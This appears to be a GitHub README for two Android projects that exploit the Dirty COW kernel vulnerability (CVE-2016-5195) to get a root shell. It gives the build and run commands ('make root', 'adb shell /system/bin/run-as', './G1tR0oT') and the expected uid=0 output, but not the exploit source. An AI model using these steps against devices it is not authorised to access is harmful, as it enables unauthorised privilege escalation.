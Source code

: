 This repo contains 2 seperate projects:
1  GetRoot-Android-DirtyCow

And:

2  CVE-2016-5195



1 GetRoot-Android-DirtyCow

Get temporary root on android by exploiting the dirtycow vulnerability.

Run in android or linux:

  ./G1tR0oT

Should execute and result in a root shell


2 CVE-2016-5195
(dirty cow/dirtycow/dirtyc0w) poc for Android
This repo (cloned from https://github.com/timwr/CVE-2016-5195) demonstrates the vulnerability on vulnerable Android devices attached via ADB.

It does not disable SELinux (see https://github.com/timwr/CVE-2016-5195/issues/9) or install superuser on the device.


Make sure you have android-ndk installed: check if you have "ndk-build" in your path:

which ndk-build

To install android-ndk:

  cd $HOME

  wget https://dl.google.com/android/repository/android-ndk-r14b-linux-x86_64.zip #For darwin: https://dl.google.com/android/repository/android-ndk-r14b-darwin-x86_64.zip

  unzip android-ndk-r14b-linux-x86_64.zip

  cd $HOME/android-ndk-r14b/


Add android-ndk to path

  export PATH="$PATH:$HOME/android-ndk-r14b/"


To run script:
  cd CVE-2016-5195
  make root


If exploited, you should execute:

  adb shell /system/bin/run-as


And running:

  id


Should output "uid=0":

  uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log)......
